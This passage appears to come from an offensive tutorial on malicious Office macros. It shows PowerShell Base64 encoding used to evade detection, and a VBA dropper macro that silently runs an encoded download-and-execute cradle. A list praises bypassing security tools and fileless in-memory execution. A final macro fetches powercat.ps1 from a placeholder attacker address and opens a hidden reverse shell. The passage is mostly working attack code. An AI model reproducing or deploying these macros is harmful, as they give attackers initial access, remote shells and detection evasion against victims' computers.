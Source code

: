 **3. Encode the bytes in Base64**:

```
$encodedCommand=[Convert]::ToBase64String($bytes)
```

- This obfuscates the original command, **bypassing basic string-based detections**.

**4. Output the encoded command**:

```
Write-Output $encodedCommand
```

- Example **Base64-encoded output**:

```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAA...
```

* * *

#### 2. VBA Macro for Executing Encoded PowerShell Command

```
Sub EncodedDropper()
    Dim dropper As Object
    Dim encodedCommand As String
    Set dropper = CreateObject("WScript.Shell")
    encodedCommand = "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAA..."
    dropper.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand " & encodedCommand, 0, False
End Sub
```

**Step-by-Step Breakdown**

1. **Creates a** `WScript.Shell` **object** to execute system commands.
2. **Stores the Base64-encoded command in the** `encodedCommand` **variable**.
3. **Runs PowerShell in hidden mode (**`0` **parameter)**, bypassing execution policies.
4. **Executes the Base64-encoded command** using `-EncodedCommand`.

**Advantages of This Technique**

- **Bypasses command-line security tools** that scan for suspicious PowerShell commands.
- **Avoids string-based detections** for `IEX`, `DownloadString`, or `Invoke-WebRequest`.
- **Executes a fileless payload in memory**, making detection harder.

* * *

### Powercat Reverse Shell

The **PowerCat** function executes a **PowerShell reverse shell** using `powercat.ps1`.

**Breakdown of the** `powercat` **Subroutine**

```
Sub powercat()
	Dim url As String
	Dim psscript As String
        url = "http://<ip>:<port>/powercat.ps1"
        psscript = "IEX (New-Object System.Net.WebClient).DownloadString('" & url & "'); powercat -c <ip> -p <port> -e cmd"
        Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -c """ & psscript & """", vbHide
End Sub
```
